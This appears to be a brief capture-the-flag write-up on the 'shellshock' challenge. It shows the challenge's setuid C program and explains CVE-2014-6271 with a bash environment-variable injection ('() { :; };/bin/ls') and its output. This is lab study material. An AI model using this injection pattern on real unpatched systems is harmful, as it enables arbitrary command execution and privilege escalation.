 ## shellshock

In `shellshock.c`
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());     // we have root permissions now
        system("/home/shellshock/bash -c 'echo shock_me'");     // run /home/shellshock/bash
        return 0;
}
```

### Shellshock(CVE-2014-6271)

Principle: error resolution for "() { :;}"

```sh
$ export vul='() { :; };/bin/ls'
$ bash
bash    flag    shellshock  shellshock.c
$ exit
exit
$ 
```